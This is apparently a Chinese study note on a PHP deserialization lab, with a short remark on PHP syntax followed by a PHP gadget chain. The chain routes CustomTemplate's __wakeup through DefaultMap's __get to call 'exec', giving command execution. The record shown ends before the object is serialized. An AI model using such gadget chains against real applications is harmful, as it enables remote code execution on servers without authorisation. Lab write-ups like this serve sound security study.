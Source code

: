 注意需要更改类的属性为public才可以在反序列化中传输，PHP中变量名用$+名字表示，对象属性的访问用的是   ->,单箭头，并且属性是不用写$的，对象的创建用new + 类名

```php
<?php

class CustomTemplate {
    public $default_desc_type;
    public $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        // $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        // $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    public $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$a=new DefaultMap("exec");
$b=new CustomTemplate();
$b->desc=$a;
```